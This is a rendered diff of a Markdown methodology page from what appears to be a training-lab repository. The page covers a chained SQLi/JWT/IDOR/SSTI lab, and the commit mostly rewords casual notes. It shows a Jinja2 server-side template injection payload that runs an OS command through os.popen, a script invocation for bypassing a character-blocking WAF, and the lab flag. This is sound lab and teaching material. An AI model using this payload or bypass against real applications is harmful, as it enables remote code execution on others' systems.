

Before and after one commit to iitachi77/appsec-vuln-labs, a Markdown page: labs/13-flowspace-sqli-jwt-idor-ssti-chain/Methodology.md, the part around one of its changes. Drawn GitHub-style.

````diff
--- a/labs/13-flowspace-sqli-jwt-idor-ssti-chain/Methodology.md
+++ b/labs/13-flowspace-sqli-jwt-idor-ssti-chain/Methodology.md
@@ -198,17 +182,17 @@ lets build a payload using the same waf bypass method
 {{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo POC > /flag.txt').read() }}
 ```
 
-no fucking manual payload worked . ~ _ - are blocked
-so i wrote the script SSTI.py where these chars are in eval format
-
-here is the flag : **FLAG{ch4in_1d0r_sql1_jwt_hm4c_ss7i_rce}**
+No off-the-shelf payload worked — `.`, `~`, `_`, `-` are all blocked. So I wrote `SSTI.py` to
+assemble the forbidden characters at evaluation time (eval-format), producing a filter-clean
+payload:
 
 ```bash
 python SSTI.py "grep -rni flag /app 2>/dev/null"
 ```
 
-then copy the payload and paste it in tokenme.py
-walaaa
+Pasted the generated payload into the signed request (`tokenme.py`) → RCE, flag recovered:
+
+**FLAG{ch4in_1d0r_sql1_jwt_hm4c_ss7i_rce}**
 
 <!-- ============================================================================= -->
 <!-- EVERYTHING ABOVE THIS LINE = my original DAST notes (black-box, untouched).    -->
````
Also changed, not shown: other parts of labs/13-flowspace-sqli-jwt-idor-ssti-chain/Methodology.md (+22 -38 lines).
